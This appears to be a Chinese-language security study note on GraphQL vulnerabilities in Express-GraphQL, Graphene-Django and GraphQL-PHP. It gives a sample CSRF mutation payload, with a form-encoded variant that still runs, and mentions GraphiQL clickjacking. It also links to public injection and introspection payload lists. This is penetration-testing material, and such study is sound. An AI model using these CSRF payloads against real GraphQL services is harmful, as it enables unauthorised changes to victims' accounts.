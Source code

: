 ![image-20210902203603699](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20210902203603699.png)

## 更多安全漏洞

Express-GraphQL：

- 框架默认无防护
- 自带GraphiQL

Graphene-Django：

- 依赖Django的安全配置（Secure As Default）
- 自带GraphiQL

GraphQL-PHP

- 无关框架

### Express-GraphQL Endpoint CSRF漏洞

```
{"query":"mutation {\n editProfile(name:\"hacker\", age: 5) {\n name\n  age\n }\n}","variables":null}
```

![image-20210902205831949](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20210902205831949.png)

将Content-Type修改为application/x-www-form-urlencode，仍可成功执行

```
query=mutation%20%7B%0A%20%20editProfile(name%3A%22hacker%22%2C%20age%3A%20
5)%20%7B%0A%20%20%20%20name%0A%20%20%20%20age%0A%20%20%7D%0A%7D
```

![image-20210902210011480](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20210902210011480.png)

直接配合burp自带的Generate CSRD POC

![image-20210902210221214](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20210902210221214.png)

### GraphiQL Clickjacking 漏洞

参见：https://github.com/graphql/graphiql/issues/683

可以配合burp自带的Clickbandit进行攻击

### GraphQL injection 漏洞

[这是一个相当全的payloads&exps](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/GraphQL%20Injection#enumerate-database-schema-via-introspection)  |  [这是一个自省payload](https://gist.github.com/craigbeck/b90915d49fda19d5b2b17ead14dcd6da)

p神ppt里的示意图直接搬过来了

![image-20210902211535481](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20210902211535481.png)
